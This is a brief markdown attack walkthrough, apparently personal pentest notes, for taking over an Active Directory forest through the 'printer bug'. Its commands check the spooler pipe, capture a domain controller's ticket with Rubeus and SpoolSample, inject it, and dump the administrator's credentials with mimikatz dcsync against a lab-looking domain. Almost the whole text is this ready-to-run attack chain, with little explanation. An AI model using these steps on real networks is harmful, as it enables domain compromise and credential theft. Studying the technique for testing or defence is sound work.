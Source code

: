 ## Owning the Forest - Printers Bug

1. First we need to check if we got access to the print spoolser service

```PowerShell
PS C:\> ls \\rdc01\pipe\spoolss
```

If we got our access, this means we can use the RpcRemoteFindFirstPrinterChangeNotification API to force an authentication and allow us to obtain a forwardable TGT.

2. Open administrative cmd, and then use Rubeus to monitor tickets

```PowerShell
C:\Tools> Rubeus.exe monitor /interval:5 /filteruser:RDC01$
```

3. Switch to a powershell prompt while rubeus is running, and launch spoolsample to force the print change notification.

```PowerShell
PS C:\Tools> .\SpoolSample.exe rdc01.sinhack.com devsrv01.secret.sinhack.com
```

4. Once we get the success message, we switch back to Rubeus and after few seconds we should see a new TGT displayed.

5. Now we can use Rubeus to inject our TGT into memory

```PowerShell
C:\Tools> Rubeus.exe ptt /ticket:doIE9DCCBPCgAwIBBaEDAgEWooIEBDCCBABhggP8MIID+...
```

6. A domain controller computer account has the access right to perform AD replication. We can exploit this by forcing a replication with Mimikatz dcsync

```bash
mimikatz # lsadump::dcsync /domain:sinhack.com /user:sinhack\administrator
```